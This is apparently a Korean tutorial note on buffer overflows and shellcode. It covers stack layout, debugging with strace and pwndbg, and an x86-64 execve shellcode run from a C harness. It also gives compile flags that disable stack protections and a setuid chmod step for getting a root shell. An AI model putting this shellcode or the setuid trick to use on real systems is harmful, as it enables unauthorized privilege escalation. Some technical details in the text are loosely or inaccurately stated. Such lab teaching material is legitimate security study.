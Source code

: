 * 리눅스는 기본적으로 프로그램을 실행할 때 스택영역에 다양한 취약점에 대해 기본적인 방어체계 마련하는데 이러한 것을 다 끈 상태로 컴파일을 하도록 만들어주는 명령어이다.

* `stack-boundary=4`를 통해 64bit 운영체제 버전으로 컴파일할 수 있게한다. sum.c의 파일을 sum.a의 어셈블리어 코드로 바꿔줄 수 있게 한다.

<p align="center">
        <img src="https://user-images.githubusercontent.com/78135526/147747139-0beed467-d799-41c9-96a4-7e53972ee4fd.png"  width="250" height="300"> 
</p>
   
C언어는 main함수부터 실행하기 되는데 main함수를 불러오게 되면 가장 아래에 RET(return address)가 생성되는데, 특정한 함수가 끝나면 돌아갈 위치를 저장한다. 

return address를 해커가 임의로 변경하여 공격하는 것이 버퍼오버플로우 등이 있다.

**RBP**란, 스택이 시작하는 베이스 포인터를 뜻하는데, RBP 바로 위부터 데이터에 대한 것이 스택에 쌓이는 것을 알려준다.    
   
### 디버깅

`apt-get install strace`로 툴을 다운받아준다. 디버깅을 하기 위해서 strace 로 시스템콜과 관련한 내용을 살펴보도록 도와주는 도구, 어떠한 프로그램이 있을 때 그것과 유사한 프로그램 만들 때도 사용하는 유용한 도구이다. `strace -ifx ./echo`를 통해 디버깅 과정을 알 수 있다.

<p align="center">
        <img src="https://user-images.githubusercontent.com/78135526/147747409-ecb79500-d919-4738-bc95-93a899986b0e.png">
</p>
   
더욱 구체적이고 좋은 디버깅 툴을 이용할 것인데 이 도구는 깃허브에서 제공한다. `git clone https://github.com/pwndbg/pwndbg` 을 입력하여 pwndbg를 다운받는다. 디버깅할 폴더로 이동하여 `gdb 해당파일이름`을 통해 디버깅을 하게 된다. 

Breaking point를 `break * _start`와 같이 지정해 `run`으로 실행하고, `ni`라는 명령어로 한줄씩 **next instruction** 한다.
   
### 쉘 코드

명령 Shell을 실행 시켜 해킹을 당하는 서버 컴퓨터를 제어하도록 하는 코드로, 특정한 소프트웨어의 버퍼오버플로우 같은 취약점 등을 이용한 쉘 코드를 이용할 수 있다. 

**루트 권한으로 실행된다면 장악할 수 있다. ex) 명령 프롬프트**

```C
#include <stdio.h>
#include <string.h>

char shell[] =  "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05";

void main() {
        printf("length : %d bytes\n", strlen(shell));
        (*(void( *)()) shell)();
        return 0;
}
```

기본적으로 최신의 OS는 프로그램 컴파일시 스택 프로텍터 같은 것으로 프로그램이 실행될 때 마다 디렉터리나 파일등의 메모리 주소 등이 계속 변화하기에 실습과정에서는 이러한 보호기법을 모두 끄고 할 것이다.

`gcc --fno-stack-protector -mpreferred-stack-boundary=4 -z execstack shell.c -o shell` 이렇게 만들어진 쉘 프로그램은 `chmod 4775 shell`로 해당 프로그램을 실행하면 루트권한을 얻을 수 있게 한다. 

일반적인 유저권한으로 해당 프로그램을 실행하면 루트권한을 획득해 모든 작업을 할 수 있게 된다.